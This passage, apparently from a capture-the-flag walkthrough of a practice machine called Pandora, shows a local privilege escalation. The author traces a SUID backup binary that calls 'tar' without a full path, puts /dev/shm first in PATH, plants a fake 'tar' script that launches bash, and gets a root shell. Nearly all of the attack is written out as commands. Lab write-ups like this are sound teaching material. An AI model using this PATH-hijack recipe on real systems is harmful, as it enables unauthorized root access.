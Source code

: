 ```
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)     = 39
+++ exited (status 1) +++

```

It crashes because it doesn’t have permissions to `/root/.backup/pandora-backup.tar.gz`, which makes sense since `ltrace` drops the privs from SUID.

Still, I’ll note that it’s using `system` to call `tar` without a full path.

### Shell

Because there’s no path given for `tar`, it will use the current user’s `PATH` environment variable to look for valid executables to run. But I can control that path, which makes this likely vulnerable to path hijack.

I’ll work from `/dev/shm`, and add that to the current user’s `PATH`:

```

matt@pandora:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/dev/shm$ export PATH=/dev/shm:$PATH
matt@pandora:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

Now the first place it will look for `tar` is `/dev/shm`.

For a malicious payload, I’ll keep it really simply:

```

matt@pandora:/dev/shm$ cat tar 
#!/bin/bash

bash

```

It’s important to also make sure that `tar` is executable:

```

matt@pandora:/dev/shm$ chmod +x tar

```

Now I’ll run `pandora_backup`, and when it reaches the call to `tar`, I get a shell:

```

matt@pandora:/dev/shm$ pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/dev/shm#

```

